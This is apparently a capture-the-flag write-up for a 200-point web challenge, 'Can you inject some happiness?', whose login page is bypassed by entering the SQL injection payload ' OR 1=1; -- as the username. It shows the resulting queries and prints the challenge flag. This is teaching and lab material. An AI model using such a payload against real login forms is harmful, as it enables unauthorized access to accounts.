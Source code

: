 # Can you inject some happiness?

> > Web - 200pts
> 
> I just started doing some web development, and thought it might be a good idea to require users logging in.
> 
> The web service is located at: `138.68.91.213:4242`
> 
> Files: [server directory](./src/)
> 
> [Writeup](./writeup.md)

## Writeup

When you start the web server and access it, you are prompted with a login screen.

This is vulnerable to SQL injection, meaning the login can be bypassed.

Inserting `' OR 1=1; -- ` into the username field will result in the SQL query:

```sql
SELECT * FROM Users WHERE username='' OR 1=1; -- AND password='';
```

In SQL, `--` is a comment, which will make sure the rest of the query will not be executed, simply resulting in

```sql
SELECT * FROM Users WHERE username='' OR 1=1;
```

Returning the first user in the `Users` table, leaving you logged in and displaying the flag:

`UiTHack{super_duper_critical_injection_vulnerabilities}`
